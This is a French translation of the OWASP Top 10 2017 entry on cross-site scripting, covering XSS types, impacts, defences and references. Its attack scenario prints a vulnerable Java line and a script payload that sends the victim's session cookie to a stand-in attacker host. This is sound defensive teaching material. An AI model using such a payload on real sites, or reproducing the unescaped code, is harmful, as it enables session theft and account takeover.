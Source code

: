 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs des victimes :

* **XSS Réfléchi** : L'application ou l'API copie les entrées utilisateurs, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et/ou du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké** : L'application ou l'API stocke des entrées utilisateurs, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voir critique.
* **XSS basé sur DOM** : Les environnements Javascript, les applications monopage, et les API qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des API Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela :

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, Javascript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut pas être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux API du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense en profondeur limitant les attaques XSS. Cela sera efficace, s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (ex : écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1** : L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement :

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par :
`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note** : Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti-falsification de requête intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Contrôles Proactifs : Encoder les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Contrôles Proactifs : Valider les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Standard de Vérification de la Sécurité des Applications : V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Guide de Test : Test des XSS Réfléchis](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Guide de Test : Test des XSS Stockés](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Guide de Test : Test des XSS basés sur DOM](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Aide-Mémoire : Prévention du XSS ](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Aide-Mémoire : Prévention du XSS basé sur DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Aide-Mémoire : Contournements de Filtres XSS ](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Projet Java Encodeur](https://owasp.org/www-project-java-encoder/)

### Externes

* [CWE-79 : Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger : Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
